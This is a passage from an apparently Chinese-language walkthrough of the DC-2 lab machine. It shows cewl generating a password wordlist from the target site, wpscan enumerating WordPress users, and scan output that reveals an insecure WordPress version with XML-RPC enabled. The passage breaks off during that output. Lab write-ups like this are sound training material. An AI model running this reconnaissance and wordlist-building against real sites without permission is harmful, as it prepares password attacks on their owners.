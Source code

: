 ![upload successful](https://lnng.top/images/pasted-130.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E9%82%A3%E8%BF%98%E8%AF%B4%E4%BB%80%E4%B9%88cewl%E6%90%9E%E8%B5%B7 "那还说什么cewl搞起")那还说什么cewl搞起

cewl是通过爬行网站获取关键信息创建一个密码字典

```
cewl http://dc-2/index.php/flag/ -w dict.txt
-w 输出的文件名称
```

发现主题是wordpress，那就扫描一下用户吧，提示密码了，因该是让登录  
使用wpscan工具：

WPScan是Kali Linux默认自带的一款漏洞扫描工具，它采用Ruby编写，能够扫描WordPress网站中的多种安全漏洞，其中包括主题漏洞、插件漏洞和WordPress本身的漏洞。最新版本WPScan的数据库中包含超过18000种插件漏洞和2600种主题漏洞，并且支持最新版本的WordPress。值得注意的是，它不仅能够扫描类似robots.txt这样的敏感文件，而且还能够检测当前已启用的插件和其他功能。  
该扫描器可以实现获取站点用户名，获取安装的所有插件、主题，以及存在漏洞的插件、主题，并提供漏洞信息。同时还可以实现对未加防护的Wordpress站点暴力破解用户名密码。

枚举一下用户,枚举出admin，jerry，tom

```
wpscan --url http://dc-2 --enumerate u
```

```

[+] URL: http://dc-2/ [192.168.124.146]
[+] Started: Sat Nov  7 02:23:05 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

```